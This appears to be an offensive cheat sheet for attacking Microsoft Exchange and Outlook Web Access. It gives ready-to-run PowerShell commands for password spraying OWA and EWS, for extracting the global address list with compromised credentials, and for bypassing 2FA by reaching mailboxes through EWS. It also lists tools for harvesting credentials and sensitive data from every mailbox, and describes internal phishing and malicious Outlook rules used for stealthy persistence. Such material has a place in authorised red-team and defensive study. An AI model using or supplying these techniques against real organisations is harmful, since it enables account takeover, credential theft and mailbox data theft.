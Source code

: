 ## Password Discovery 

  - ```Import-Module .\EmailAddressMangler.ps1```  
  - ```Invoke-PasswordSprayOWA -ExchHostname mail.domain.com –UserList .\potential_usernames.txt -Password P@ssw0rd123 -Threads 15 -OutFile owa-sprayed-creds.txt``` --> Spray using single password.  
  - *Burp Suite's Intruder can be used too*  
  - ```Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt - Password Fall2016 -Threads 15 -OutFile sprayed-ews-creds.txt``` --> Same Attack against EWS.  
  - [Requests NTLM](https://github.com/requests/requests-ntlm) can be use to bruteforce too.  

## GAL Extraction  

  - ```Import-Module .\EmailAddressMangler.ps1```  
  - ```Get-GlobalAddressList -ExchHostname mail.domain.com –UserName domain\username -Password Fall2016 -OutFile global-address-list.txt```   

## 2FA Bypass  

  - *Access to OWA may be protected by 2FA but the mailbox can be accessed via EWS withouth 2FA*  
  - ```Import-Module .\MailSniper.ps1```  
  - ```Invoke-SelfSearch -Mailbox target@domain.com -ExchHostname mail.domain.com -remote``` --> Access via EWS.  
  - *Invoke-SelfSearch can also take various parameters to customize the mailbox search.*  

## Remote Compromise  

### Pillaging mailboxes for credentials/sensitive data 

Sensitive information harvesting against every mailbox. Certificates, VPN/RDP passwords, documents.

  - owaDump (--keyword option)  
  - MailSniper (Invoke-SelfSearch)  
  - EmailRaider (Invoke-MailSearch)  
  - PowerOutlook (New-DynamicOutlookTrigger.ps1 could be customized for pillaging activities)  

### Internal Phishing  

Valid credentials enable us to impersonate internal users. This means that we will have already built a trust relationship, prior to any attack. We can therefore spread the compromise via creative internal phishing activities. Various types of credentials like E-mail/VPN/RDP credentials could be gathered this way.  

### Malicious Outlook Rules  

**Start Application**
  
  - Synchronized through the exchange server  

**Run a Script**
  
  - Not Synchronized though the exchange server  
  - Can be used for stealth persistence  

